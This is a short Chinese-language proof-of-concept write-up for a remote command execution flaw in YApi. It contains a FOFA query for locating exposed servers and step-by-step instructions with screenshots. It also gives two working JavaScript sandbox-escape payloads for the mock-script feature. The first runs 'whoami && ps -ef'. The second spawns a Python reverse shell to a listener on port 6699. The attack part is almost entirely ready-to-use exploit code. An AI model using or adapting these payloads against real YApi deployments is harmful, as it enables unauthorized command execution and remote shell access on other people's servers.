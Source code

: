 # Yapi存在远程命令执行漏洞
Yapi存在远程命令执行漏洞

## fofa

```javascript
app="YApi"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733889052543-d9462fa4-5ed8-49c3-90e0-0e22bdb0bf3d.png)

## poc
注册账号登录

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733889068979-94f17c91-b7c5-4736-b63a-ec608cf02a06.png)

新建项目

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733889103239-3d32f9de-1ae6-4668-802b-4ba25b36ede2.png)

添加接口

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733889123950-560b7590-201a-477d-98e0-aba7da89b62a.png)

```java
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("whoami && ps -ef").toString()
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733889157562-bdbc7f22-a8c2-4a3c-a54a-4203d7dd3622.png)

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733889175163-7053a924-2cc1-4bbf-9f22-18d333698b52.png)

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733889186745-cec84584-2bb5-4a9f-af14-0c06944989d7.png)

反弹shell

```java
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
Poc = process.mainModule.require("child_process").spawnSync(
  'python', ['-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",6699));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']
)
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733892630767-39caa4e3-fb60-405e-99ef-5c4ac2d09df8.png)

